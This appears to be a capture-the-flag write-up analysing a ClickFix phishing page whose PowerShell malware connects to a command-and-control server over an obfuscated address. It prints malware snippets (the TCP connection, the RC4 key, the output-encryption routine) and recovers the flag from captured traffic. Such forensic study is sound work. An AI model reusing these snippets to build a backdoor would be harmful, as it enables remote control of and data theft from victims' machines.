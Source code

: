 # Fishy Website — Writeup

**Category:** *misc*

## Initial access

A link to a webpage with a login form was provided. After attempting to log in, I was redirected to a page to "solve a CAPTHCA:

<p align="center">
<img src="../../resources/DownUnderCTF 2025/Fishy1.png" alt="Captcha task"/>
</p>

This is a typical example of [ClickFix](https://www.group-ib.com/blog/clickfix-the-social-engineering-technique-hackers-use-to-manipulate-victims/) attack. The PowerShell cmdlet fetches additional data from the `../verify/script` endpoint, which contains a base64-encoded PowerShell script.

## Malware description

1. First, the malware connects to its C2 server using a `xor` encrypted IP address and port:

```PowerShell
$CLIENT = New-Object System.Net.Sockets.TcpClient

$CLIENT.Connect((Func1 -ARRAY_TO_FUNC @(5,7,25,2,25,3,15,25,5,7,7) -KEY 55), ((50 * 9) - (11 * 2)) + [math]::Pow(2, 3) + [math]::Sqrt(49))

$TCP_STREAM = $CLIENT.GetStream()
```
	Func1 decrypts the given array with key 55.

2. Next, the malware receives the RC4-encrypted commands from the server and decrypts them with the following key:

```PowerShell
$VAR1 = 0xf1,0x6e,0xcd,0xc6,0x79,0x4c,0x66,0xd1,0x02,0xf8,0x33,0xc4,0x86,0xe7,0xa4,0x35,0x8d,0x69,0xbd,0xd2,0x1d,0x50,0xf5,0xfb,0xdf,0xec,0xaf,0x0b,0x9e,0x53,0xa4,0xd3
```

3. The result of the command is encrypted with RC4 with the same key and appends extra bytes to the end:

```PowerShell
function Func3 {
	param ([string]$C2_COMMAND)
	$UTF-8_ENCODED_STR = [System.Text.Encoding]::UTF8.GetBytes($C2_COMMAND)
	$ARRAY_TO_FUNC = (Func2 -C2_KEY $VAR1 -C2_STRING $UTF-8_ENCODED_STR) + (0x02,0x04,0x06,0x08)
	$REVERSED_BYTES_ARRAY = [System.BitConverter]::GetBytes([int16]$ARRAY_TO_FUNC.Length)
	[Array]::Reverse($REVERSED_BYTES_ARRAY)
	return (0x17, 0x03, 0x03) + $REVERSED_BYTES_ARRAY + $ARRAY_TO_FUNC
}
```

## Solution

1.  A `.pcapng` file with captured traffic was provided.
2. I decrypted the C2 IP address from step 1 of the malware description:

<p align="center">
<img src="../../resources/DownUnderCTF 2025/Fishy2.png" alt="Decrypted IP address"/>
</p>

3. I then filtered the traffic in the file using this IP address and found many TLS 1.3 encrypted packets:

<p align="center">
<img src="../../resources/DownUnderCTF 2025/Fishy3.png" alt="Some of the encrypted packets"/>
</p>

4. I didn't find anything useful here, but I noticed that some data that was marked as encrypted in the packets has the tail with bytes from step 3 of the malware description:

<p align="center">
<img src="../../resources/DownUnderCTF 2025/Fishy4.png" alt="The strange data"/>
</p>

5. So I tried to decrypt the data:

<p align="center">
<img src="../../resources/DownUnderCTF 2025/Fishy5.png" alt="Decrypted data"/>
</p>

6. After that I started to look for the possible flag and found the next packet:

<p align="center">
<img src="../../resources/DownUnderCTF 2025/Fishy6.png" alt="The possible flag packet"/>
</p>

7. I decrypted the data and got a base64-encoded string, which turned out to be the flag:

<p align="center">
<img src="../../resources/DownUnderCTF 2025/Fishy7_0.png" alt="Decrypted bytes"/>
</p>
<p align="center">
<img src="../../resources/DownUnderCTF 2025/Fishy7_1.png" alt="base64 string"/>
</p>
<p align="center">
<img src="../../resources/DownUnderCTF 2025/Fishy7_2.png" alt="The flag"/>
</p>
